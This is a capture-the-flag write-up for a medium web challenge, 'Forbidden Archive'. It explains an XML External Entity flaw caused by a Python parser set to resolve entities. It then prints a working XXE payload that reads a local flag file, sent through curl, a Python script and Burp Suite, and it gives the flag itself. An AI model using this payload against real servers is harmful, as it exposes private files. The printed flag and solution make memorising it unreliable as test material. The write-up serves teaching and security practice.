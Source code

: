 # CTF Challenge Writeup: Forbidden Archive
**Challenge Name:** Forbidden Archive  
**Category:** Web Exploitation  
**Difficulty:** Medium  
**Author:** M4hd1Dbh  


## Challenge Description  
Deep within the digital catacombs lies the Forbidden Archive - a repository of ancient knowledge protected by arcane technology. The Archivists communicate in strange markup languages, and whisper of a hidden tome containing the greatest secret of all........

**Hint:** The application loves XML... maybe a little too much. Check how it handles external references..  

**Flag:** `ghctf{XX3_1nj3ct10n_1s_3v1l}`

---

## Vulnerability Analysis

### Code Review
The vulnerable code is located in the `/api` endpoint:

```python
# Vulnerable XML parsing
parser = etree.XMLParser(resolve_entities=True)  # VULNERABLE!
root = etree.fromstring(xml_data, parser)
product_id = root.find('id').text
```

**Key Issues:**
1. **External Entity Resolution:** `resolve_entities=True` enables XXE attacks
2. **No Input Validation:** XML content is processed without sanitization
3. **Error Disclosure:** Invalid product IDs are reflected in error messages

### Attack Vector
When an invalid product ID is submitted, the application returns:
```
<error>Invalid product ID: {product_id}</error>
```

If the `product_id` contains an external entity reference, it will be resolved and the file contents will be displayed in the error message - perfect for XXE exploitation!

---

## Solution Walkthrough  

### Step 1: Analyzing the Application Interface
The challenge presents a simple web interface for accessing the Forbidden Archive data.

- Navigate to the challenge URL and examine the interface
- Notice the application accepts XML requests to query archive data
- The hint suggests checking how the application handles "external references"

### Step 2: Understanding the Request Format

First, test the normal functionality with a valid product request:

```bash
curl -X POST http://localhost:5003/api \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<root>
    <id>1</id>
</root>'
```

**Expected Response:**
```xml
<product>
    <name>Black Data Archive</name>
    <price>$1k</price>
    <description>Contains classified military intelligence and strategic operations data from 2015-2023. Access requires Omega clearance.</description>
</product>
```

### Step 3: Testing for XXE Vulnerability

Try an invalid product ID to see the error format:

```bash
curl -X POST http://localhost:5003/api \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<root>
    <id>invalid</id>
</root>'
```

**Expected Response:**
```xml
<error>Invalid product ID: invalid</error>
```

This confirms the application reflects the product ID in error messages - perfect for XXE exploitation!

### Step 4: Crafting the XXE Payload

The goal is to read the hidden flag file using XML External Entity injection.

#### XXE Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
    <id>&xxe;</id>
</root>
```

**Key Components:**
- `<!DOCTYPE root [...]>`: Defines the document type with entities
- `<!ENTITY xxe SYSTEM "file:///app/flag.txt">`: Creates external entity referencing the flag file
- `<id>&xxe;</id>`: References the entity in the product ID field

### Step 5: Executing the Attack

#### Method 1: Using curl
```bash
curl -X POST http://localhost:5003/api \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
    <id>&xxe;</id>
</root>'
```

#### Method 2: Using Python Script
```python
#!/usr/bin/env python3
import requests

# XXE payload to read flag file
xxe_payload = '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
    <id>&xxe;</id>
</root>'''

# Send the attack
response = requests.post(
    'http://localhost:5003/api',
    data=xxe_payload,
    headers={'Content-Type': 'application/xml'}
)

print("Response:", response.text)
```

#### Method 3: Using Burp Suite
1. Intercept a normal XML request to `/api`
2. Replace the XML body with the XXE payload
3. Forward the request
4. Observe the flag in the response

### Step 6: Flag Extraction

**Successful Attack Response:**
```xml
<error>Invalid product ID: ghctf{XX3_1nj3ct10n_1s_3v1l}</error>
```

🚩 **Flag:** `ghctf{XX3_1nj3ct10n_1s_3v1l}`

